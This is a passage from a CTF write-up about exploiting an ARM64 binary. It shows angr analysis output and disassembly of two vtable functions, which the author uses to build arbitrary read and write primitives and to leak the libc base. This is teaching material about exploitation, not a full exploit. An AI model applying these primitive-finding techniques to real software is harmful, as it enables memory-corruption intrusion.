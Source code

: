 ```
[+] Function at 0x3bb80 has symbolic X0: <BV64 0x0 .. (if 64 <= mem_ff00000000000009_1026_8 then 0x0 else 0x1)>
[+] Function at 0x3bfb8 has symbolic X0: <BV64 0x0 .. (if 64 <= mem_ffffffffffe007f0_1037_8 then 0x0 else 0x1)>
[+] Function at 0x3c49c has symbolic X0: <BV64 0x0 .. (if 64 <= mem_fffffffffc000009_1045_8 then 0x0 else 0x1)>
[+] Function at 0x3ca94 has symbolic X0: <BV64 0x0 .. mem_fe00000000000000_1065_32>
```

We can see that several virtual functions meet the initial criteria. However, upon closer inspection, most of them look like this:

`.. (if 64 <= mem_ff00000000000009_1026_8 then 0x0 else 0x1)`

This means that X0 will return either 0 or 1 -- functions like these are not useful for our purposes and can be ignored.
In the end, there's one virtual function that meets our needs: `0x3ca94`, from relative vtable `0xa160`, with entry at `0xa174`:

```
.text:000000000003CA94                 BTI             c
.text:000000000003CA98                 SUB             SP, SP, #0x10
.text:000000000003CA9C                 STR             X0, [SP,#0x10+var_8]
.text:000000000003CAA0                 LDR             X8, [SP,#0x10+var_8]
.text:000000000003CAA4                 LDR             X8, [X8,#8]
.text:000000000003CAA8                 LDR             W0, [X8]
.text:000000000003CAAC                 ADD             SP, SP, #0x10
.text:000000000003CAB0                 RET
```

Looking at the assembly, we can see that by controlling the pointer at `[this + 8]`, we can achieve a 4-byte arbitrary read. With this primitive, we can read any memory address and leak the base address of libc.so.

For arbitrary write, the process is similar: use angr to analyze virtual functions and find a suitable target. Ideally, we want to find a function that look like this:

```c++
void Obj::func() {
  this->a->b = this->c;
}
```

Here's the approach I used:

1. Just like before, set X0 to point to a memory buffer and symbolize its contents.
2. Add a callback for memory writes, and detect:  
    (a) Whether the target address of the memory write contains a symbolic variable.  
    (b) Whether the value being written contains a symbolic variable.

Again, the full code is available [here](https://github.com/bruce30262/CTF_challenge_public/blob/master/hitcon2025_qual/calc/solution/angr_scripts/find_aaw.py).

With angr, we'll found another virtual function that matches our needs: `0x3CA70`, from relative vtable `0xa160`, with entry at `0xa170`:

```
.text:000000000003CA70                 BTI             c
.text:000000000003CA74                 SUB             SP, SP, #0x10
.text:000000000003CA78                 STR             X0, [SP,#0x10+var_8]
.text:000000000003CA7C                 LDR             X9, [SP,#0x10+var_8]
.text:000000000003CA80                 LDR             W8, [X9,#0x10]
.text:000000000003CA84                 LDR             X9, [X9,#8]
.text:000000000003CA88                 STR             W8, [X9]
.text:000000000003CA8C                 ADD             SP, SP, #0x10
.text:000000000003CA90                 RET
```
